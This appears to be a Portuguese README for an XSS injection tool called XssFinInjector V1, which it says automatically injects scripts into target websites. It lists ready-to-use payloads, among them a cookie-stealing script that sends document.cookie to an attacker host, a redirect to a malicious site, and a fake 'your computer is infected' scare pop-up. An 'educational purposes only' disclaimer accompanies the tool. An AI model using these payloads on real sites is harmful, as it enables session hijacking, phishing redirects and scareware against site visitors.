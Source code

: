 # XssFinInjector V1

Bem-vindo ao Programa de Injeção de Código Xss! Este programa foi criado com o intuito de fornecer ferramentas para injetar scripts XSS em sites. Lembre-se de que o uso dessas técnicas sem a devida autorização é ilegal e antiético. Este programa é fornecido apenas para fins educacionais e de pesquisa.

## Funcionalidades

- Edição de scripts XSS: Você pode usar o programa para editar o script XSS que será injetado nos sites alvo.
- Injeção automática: O programa é capaz de realizar a injeção automática do código malicioso nos sites especificados.

## Exemplos de Scripts XSS

Aqui estão alguns exemplos de scripts XSS que você pode usar:

1. Script XSS básico:
```html
<script>alert("Este é um ataque XSS!");</script>
```

2. Script XSS de redirecionamento:
```html
<script>window.location.href = 'http://www.site-malicioso.com';</script>
```

3. Script XSS para roubo de cookies:
```html
<script>document.location='http://www.site-do-atacante.com/cookie.php?cookie='+document.cookie;</script>
```

4. Script XSS para exibição de pop-up:
```html
<script>alert("Seu computador está infectado! Clique OK para remover o vírus.");</script>
```

